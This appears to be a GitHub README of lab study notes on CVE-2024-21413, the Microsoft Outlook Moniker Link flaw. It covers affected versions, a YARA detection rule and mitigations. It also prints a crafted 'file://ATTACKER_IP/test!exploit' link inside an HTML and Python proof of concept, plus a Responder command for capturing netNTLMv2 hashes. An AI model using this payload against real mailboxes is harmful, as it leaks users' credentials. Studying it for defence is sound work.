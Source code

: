 # 📧 CVE-2024-21413 - Microsoft Outlook Moniker Link Vulnerability

## 🗓️ Disclosure

- **Date**: February 13, 2024  
- **CVE**: [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)  
- **Discovered By**: Haifei Li (Check Point Research)

## 🚨 Summary

A critical vulnerability in Microsoft Outlook allows attackers to exploit **Moniker Links**, leading to **NTLM credential leakage** and potentially **Remote Code Execution (RCE)**. This bypasses Outlook’s Protected View and security prompts.

---

## 🔍 What is a Moniker Link?

Moniker Links are not traditional URLs like `http://`. They use Microsoft’s **Component Object Model (COM)** and can:

- Access local files or remote network shares
- Bind to and execute COM objects
- Trigger high-privilege actions

Outlook fails to properly handle these links, which can result in:

- Automatic NTLM authentication to attacker-controlled SMB servers
- Leakage of Windows **netNTLMv2** hashes
- Potential RCE using COM-based payloads

---

## 📊 Vulnerability Overview

| Field                  | Detail                                                              |
|------------------------|---------------------------------------------------------------------|
| CVE                    | [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact                 | Remote Code Execution, Credential Theft                            |
| Severity               | Critical (CVSS 9.8)                                                 |
| Attack Complexity      | Low                                                                 |
| Discovered By          | Haifei Li, Check Point Research                                     |

---

## 🖥️ Affected Software Versions

| Microsoft Office Version         | Affected From Version              |
|----------------------------------|------------------------------------|
| Microsoft Office LTSC 2021       | 19.0.0                             |
| Microsoft 365 Apps for Enterprise| 16.0.1                             |
| Microsoft Office 2019            | 16.0.1                             |
| Microsoft Office 2016            | < 16.0.5435.1001                   |

---

## ⚙️ Technical Context

### COM & Moniker Links

- COM: Microsoft's Component Object Model used for object interaction.
- Monikers: COM-based “intelligent names” that bind to objects or files.
- `file://` links in HTML emails can invoke these Monikers.

### Bypass Technique

- A Moniker Link like:

  ```html
  <a href="file://ATTACKER_IP/test!exploit">Click me</a>
  ```

  uses a special character (`!`) to bypass Protected View, forcing Outlook to initiate an SMB connection to the attacker’s server—sending NTLM hashes.

---

## 🧪 Proof-of-Concept (PoC)

### Email Exploit Script

A Python PoC sends an HTML email with a crafted Moniker Link:

```python
html_content = '''
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_IP/test!exploit">Click me</a></p>
</html>
'''
```

### Responder SMB Listener

```bash
responder -I ens5
```

### Outcome

- Victim opens Outlook
- Clicks the "Click me" link
- Responder captures the **netNTLMv2** hash from the SMB authentication attempt

---

## 🔎 Detection

### 🧪 YARA Rule (by [Florian Roth](https://github.com/CMNatic/CVE-2024-21413))

```yara
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {
    meta:
        description = "Detects CVE-2024-21413 exploitation attempts"
        author = "X__Junior, Florian Roth"
        reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"
        date = "2024-02-17"
        modified = "2024-02-19"
        score = 75

    strings:
        $a1 = "Subject: "
        $a2 = "Received: "
        $xr1 = /file:\/\/\/\\[^"']{6,600}\.(docx|txt|pdf|...)!/

    condition:
        filesize < 1000KB
        and all of ($a*)
        and 1 of ($xr*)
}
```

### Wireshark

- SMB request and **netNTLMv2 hash** can be captured in packet traces.

---

## 🛡️ Mitigation & Remediation

- ✅ **Update Microsoft Outlook** immediately via Windows Update or Microsoft Update Catalog
- 🚫 **No configuration workaround** exists to disable Moniker handling in Outlook
- 🔐 Consider disabling automatic NTLM authentication where feasible
- 🔥 Blocking outbound SMB (port 445) on firewalls can help mitigate credential theft

---

## 🔐 Security Best Practices

- Do **not click** unknown or suspicious links
- **Preview** links before clicking
- **Forward** suspicious emails to your IT or cybersecurity team
- Monitor systems for signs of unusual SMB or NTLM traffic

---

## 🧾 Key Terms

| Term        | Definition                                       |
|-------------|--------------------------------------------------|
| **COM**     | Component Object Model — Windows object system   |
| **Moniker** | A COM-based reference to link or bind to objects |
| **NTLM**    | Windows authentication protocol                  |
| **RCE**     | Remote Code Execution                            |

---

## 🧠 Trivia & Questions

- 🔧 **Tool used to capture hashes**: `responder`
- 🔑 **Hash type captured**: `netNTLMv2`

> ---

<sub>🔗 References & Resources:</sub>
- <sub>TryHackMe — Moniker Link | Cyber Security 101 (THM) [TryHackMe](https://tryhackme.com/room/monikerlink)</sub>
- <sub>Wanna read more about [Moniker Link](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)</sub>
- <sub>Access [CVE Records](https://www.cve.org/CVERecord?id=CVE-2024-21413)</sub>

